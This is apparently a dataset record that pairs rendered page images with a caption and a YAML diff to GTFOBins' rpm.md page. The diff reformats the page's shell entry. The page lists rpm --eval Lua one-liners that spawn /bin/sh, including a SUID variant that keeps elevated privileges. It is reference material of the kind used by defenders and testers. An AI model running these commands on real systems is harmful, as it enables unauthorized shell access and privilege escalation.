

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpm.md, in a window 1280 px wide. Shown: the whole page at 91% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1068 px from its top, so only the background shows below that.

```diff
--- a/_gtfobins/rpm.md
+++ b/_gtfobins/rpm.md
@@ -3,7 +3,8 @@ functions:
   shell:
     - description: |
         From rpm versions 4.9.0 and on, posix.exec() will return an error unless called from a child process created with posix.fork(). os.execute() may be used instead.
-    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
+      code: |
+        rpm --eval '%{lua:os.execute("/bin/sh")}'
   suid:
     - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
   sudo:
```
